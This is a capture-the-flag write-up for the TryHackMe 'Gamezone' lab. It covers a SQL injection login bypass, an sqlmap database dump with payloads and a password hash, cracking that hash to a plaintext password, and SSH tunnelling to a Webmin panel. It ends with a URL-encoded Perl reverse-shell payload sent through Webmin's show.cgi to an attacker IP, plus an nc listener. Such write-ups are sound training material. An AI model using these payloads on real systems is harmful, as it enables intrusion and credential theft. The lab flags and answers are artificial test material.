



# Gamezone Writeup

    Box IP Addresses:
    10.10.156.19

## Task 1

### Q1 *Deploy the machine and access its web server.*

### Q2 *What is the name of the large cartoon avatar holding a sniper on the forum?*

Agent 47.

## [Task 2] Obtain access via SQLi

*In this task you will understand more about SQL (structured query language) and how you can potentially manipulate queries to communicate with the database.*

### Q1

*SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:*

    SELECT * FROM users WHERE username = :username AND password := password

*In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.*

*Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.*

### Q2 	

*Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials. If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session. The SQL query that now gets executed on the web server is as follows:*

    SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -

*The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.*

### Q3

*GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question. Use ' or 1=1 -- - as your username and leave the password blank.*

*When you've logged in, what page do you get redirected to?*

    Type in `' or 1=1 -- -` as username, no password. You get redirected to http://10.10.156.19/portal.php

## [Task 3] Using SQLMap

*SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of Kali Linux or can be manually downloaded and installed here. There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.*

### Q1

*We're going to use SQLMap to dump the entire database for GameZone. Using the page we logged into earlier, we're going point SQLMap to the game review search feature. First we need to intercept a request made to the search feature using BurpSuite.*

*Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.*

*-r uses the intercepted request you saved earlier*
*--dbms tells SQLMap what type of database management system it is*
*--dump attempts to outputs the entire database*

*SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.*

*In the users table, what is the hashed password?*

Output:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/gamezone$ sqlmap -r request.txt --dbms=mst --dbms=mysql --dump
    
    SQLMAP LOGO HERE {1.4.8#stable}                                    

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting @ 22:09:42 /2020-08-19/

    [22:09:42] [INFO] parsing HTTP request from 'request.txt'
    [22:09:42] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: searchitem (POST)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
        Payload: searchitem=-1374' OR 4756=4756#

        Type: error-based
        Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
        Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x716b767071,(SELECT (ELT(2746=2746,1))),0x717a627a71),2746)-- eJpQ

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: searchitem=test' AND (SELECT 1760 FROM (SELECT(SLEEP(5)))jxCU)-- HlQI

        Type: UNION query
        Title: MySQL UNION query (NULL) - 3 columns
        Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716b767071,0x55624c637070666e4b7842524c45507a706e7561455867626f464d556779416759546973716e416a,0x717a627a71)#
    ---
    [22:09:42] [INFO] testing MySQL
    [22:09:42] [INFO] confirming MySQL
    [22:09:42] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    [22:09:42] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
    [22:09:42] [INFO] fetching current database
    [22:09:42] [INFO] fetching tables for database: 'db'
    [22:09:42] [INFO] fetching columns for table 'post' in database 'db'
    [22:09:42] [INFO] fetching entries for table 'post' in database 'db'
    Database: db
    Table: post
    [5 entries]
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | id | name                           | description                                                                                                                                                                                            |
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
    | 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
    | 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
    | 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
    | 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
    +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

    [22:09:42] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.156.19/dump/db/post.csv'                                            
    [22:09:42] [INFO] fetching columns for table 'users' in database 'db'
    [22:09:42] [INFO] fetching entries for table 'users' in database 'db'
    [22:09:42] [INFO] recognized possible password hashes in column 'pwd'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    [22:09:43] [INFO] writing hashes to a temporary file '/tmp/sqlmapg01iru1x2963/sqlmaphashes-ix8j_2n_.txt'                                                              
    do you want to crack them via a dictionary-based attack? [Y/n/q] y
    [22:09:44] [INFO] using hash method 'sha256_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [22:09:46] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] n
    [22:09:48] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
    [22:09:48] [INFO] starting 4 processes 
    [22:09:59] [WARNING] no clear password(s) found                                   
    Database: db
    Table: users
    [1 entry]
    +------------------------------------------------------------------+----------+
    | pwd                                                              | username |
    +------------------------------------------------------------------+----------+
    | ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
    +------------------------------------------------------------------+----------+

    [22:09:59] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.156.19/dump/db/users.csv'                                          
    [22:09:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.156.19'                                                        

    [*] ending @ 22:09:59 /2020-08-19/

The hashed password is: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

### Q2

*What was the username associated with the hashed password?*

The username is `agent47`

### Q3

*What was the other table name?*

The other table name is `post`

## [Task 4] Cracking a password with JohnTheRipper

*John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines. We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.*

### Q1

*Once you have JohnTheRipper installed you can run it against your hash using the following arguments:*

    hash.txt - contains a list of your hashes (in your case its just 1 hash)
    --wordlist - is the wordlist you're using to find the dehashed value
    --format - is the hashing algorithm used. In our case its hashed using SHA256.

### Q2

*What is the de-hashed password?*

videogamer124

We can use JohnTheRipper like so:

    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

### Q3

*Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?*

    agent47@gamezone:~$ cat user.txt
    649ac17b1480ac13ef1e4fa579dac95c

## [Task 5] Exposing services with reverse SSH tunnels

*Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.*

*`-L` is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do ssh -L 9000:imgur.com:80 user@example.com. Going to localhost:9000 on your machine, will load imgur traffic using your other server.*

*`-R` is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.*

### Q1

*We will use a tool called ss to investigate sockets running on a host.*

*If we run ss -tulpn it will tell us what socket connections are running*

| Argument | Description                        |
|----------|------------------------------------|
| -t       | Display TCP sockets                |
| -u       | Display UDP sockets                |
| -l       | Displays only listening sockets    |
| -p       | Shows the process using the socket |
| -n       | Doesn't resolve service names      |

*How many TCP sockets are running?*

Output:

    agent47@gamezone:~$ ss -tulpn
    Netid State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
    udp   UNCONN     0      0           *:68                      *:*                  
    udp   UNCONN     0      0           *:10000                   *:*                  
    tcp   LISTEN     0      128         *:10000                   *:*                  
    tcp   LISTEN     0      128         *:22                      *:*                  
    tcp   LISTEN     0      80     127.0.0.1:3306                    *:*                  
    tcp   LISTEN     0      128        :::80                     :::*                  
    tcp   LISTEN     0      128        :::22                     :::*          

5 TCP sockets are running.

### Q2

*We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!*

*From our local machine, run:*

    ssh -L 10000:localhost:10000 <username>@<ip>

*Once complete, in your browser type `localhost:10000` and you can access the newly-exposed webserver.*

    kali@kali-[10.8.82.167]:~/labs/tryhackme/gamezone$ ssh -L 10000:localhost:10000 agent47@10.10.156.19

Then typing localhost:10000 on firefox, we get:

Typing in agent47:videogamer124 as the username and password, we get:

*What is the name of the exposed CMS?*

The name of the exposed CMS (Content Management System) is `Webmin`.

### Q3

*What is the CMS version?*

Webmin Version is `1.580`.

## [Task 6] Privilege Escalation with Metasploit

*Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine. If you are inexperienced with Metasploit, complete the Metasploit room first.*

### Q1

*What is the root flag?*

Module: https://www.rapid7.com/db/modules/exploit/unix/webapp/webmin_show_cgi_exec

Basically we can manipulate the URL to execute code/show files, through this URL:

    /file/show.cgi

For example, to access root.txt we do:

    http://localhost:10000/file/show.cgi/root/root.txt

Output:

    a4b945830144bdd71908d12d902adeee

PrivEsc:

On Firefox:

    http://localhost:10000/file/show.cgi/bin/4uIPiqNld|perl%20-e%20'use%20Socket;$i=%2210.8.82.167%22;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);%7D;'|

On Terminal:

    rlwrap nc -lvnp 4444

The reason why this works, from what I can see, is that Webmin is running in perl. The others didn't work for me but this one did, weird why, but complete!